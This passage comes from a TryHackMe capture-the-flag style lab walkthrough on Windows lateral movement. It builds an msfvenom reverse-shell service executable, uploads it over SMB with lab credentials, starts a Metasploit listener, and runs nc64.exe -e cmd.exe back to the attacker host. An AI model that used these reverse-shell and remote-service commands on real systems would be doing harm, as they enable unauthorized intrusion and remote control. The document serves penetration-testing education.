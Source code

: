 <figure><img src="../../.gitbook/assets/image (14) (4).png" alt=""><figcaption></figcaption></figure>

We'll show how to use those credentials to move laterally to THMIIS using `sc.exe`. Feel free to try the other methods, as they all should work against THMIIS.

While we have already shown how to use sc to create a user on a remote system (by using `net user`), we can also upload any binary we'd like to execute and associate it with the created service. However, if we try to run a reverse shell using this method, we will notice that the reverse shell disconnects immediately after execution. The reason for this is that service executables are different to standard .exe files, and therefore non-service executables will end up being killed by the service manager almost immediately. Luckily for us, msfvenom supports the `exe-service` format, which will encapsulate any payload we like inside a fully functional service executable, preventing it from getting killed.

To create a reverse shell, we can use the following command:

Note: Since you will be sharing the lab with others, you'll want to use a different filename for your payload instead of "myservice.exe" to avoid overwriting someone else's payload.

**Kali**

```
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=$KALI LPORT=4444 -o myservice.exe
```

**Kali**

```
smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
```

Once our executable is uploaded, we will set up a listener on the attacker's machine to receive the reverse shell from `msfconsole`:

**Kali**

```
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```

Since `sc.exe` doesn't allow us to specify credentials as part of the command, we need to use `runas` to spawn a new shell with t1\_leonard.summer's access token. Still, we only have SSH access to the machine, so if we tried something like `runas /netonly /user:ZA\t1_leonard.summers cmd.exe`, the new command prompt would spawn on the user's session, but we would have no access to it. To overcome this problem, we can use runas to spawn a second reverse shell with t1\_leonard.summers access token:

**Victim**

```
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe $KALI 4443"
```
